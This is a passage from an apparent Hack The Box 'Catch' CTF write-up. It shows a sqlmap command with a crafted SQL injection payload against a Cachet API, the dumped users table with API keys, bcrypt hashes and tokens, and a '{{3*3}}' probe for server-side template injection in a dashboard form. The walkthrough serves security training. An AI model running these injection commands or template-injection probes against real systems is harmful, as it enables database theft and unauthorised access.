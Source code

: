 ```
| schedules           |
| sessions            |
| settings            |
| subscribers         |
| subscriptions       |
| taggables           |
| tags                |
| users               |
+---------------------+
```

Looking at the tables from the catchet database, we will try to dump the data from the users table. From the output, we are able to obtain the API keys for both admin@catch.htb and john@catch.htb
```
sqlmap "http://catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+" -D cachet -T users --dump --threads 10 
+----+-----------------+--------+---------+----------------------+--------------------------------------------------------------+----------+----------+---------------------+---------------------+--------------------------------------------------------------+-------------------+
| id | email           | active | level   | api_key              | password                                                     | username | welcomed | created_at          | updated_at          | remember_token                                               | google_2fa_secret |
+----+-----------------+--------+---------+----------------------+--------------------------------------------------------------+----------+----------+---------------------+---------------------+--------------------------------------------------------------+-------------------+
| 1  | admin@catch.htb | 1      | 1       | rMSN8kJN9TPADl2cWv8N | $2y$10$quY5ttamPWVo54lbyLSWEu00A/tkMlqoFaEKwJSWPVGHpVK2Wj7Om | admin    | 1        | 2022-03-03 02:51:26 | 2022-03-03 02:51:35 | 5t3PCyAurH7oKann9dhMfL7t0ZTN7bz4yiASDB8EAfkAOcN60yx0YTfBBlPj | NULL              |
| 2  | john@catch.htb  | 1      | 2       | 7GVCqTY5abrox48Nct8j | $2y$10$2jcDURPAEbv2EEKto0ANb.jcjgiAwWzkwzZKNT9fUpOziGjJy5r8e | john     | 1        | 2022-03-03 02:51:57 | 2022-03-03 02:52:12 | 5N58LraMhWCeM6kVL1OgADG4DoUkViSmJLowCth6ocSLv9s7DyDmNWgYEJlB | NULL              |
+----+-----------------+--------+---------+----------------------+--------------------------------------------------------------+----------+----------+-----------
```
### Server-side Template Injection
Using the credentials for John that we have obtained earlier, we realize that this set of credentials can be used to login to http://catch.htb:8000.

Afterwards, we also realize that this dashboard is vulnerable to SSTI. This is because Cachet uses a vulnerable version of Twig that can be exeploited by SSTI. We can test for this vulnerable by putting the payload of ```{{3*3}}``` in the form fields of http://catch.htb:8000/dashboard/templates/create

![SSTI payload](https://github.com/joelczk/writeups/blob/main/HTB/Images/Catch/SSTI_payload.png)

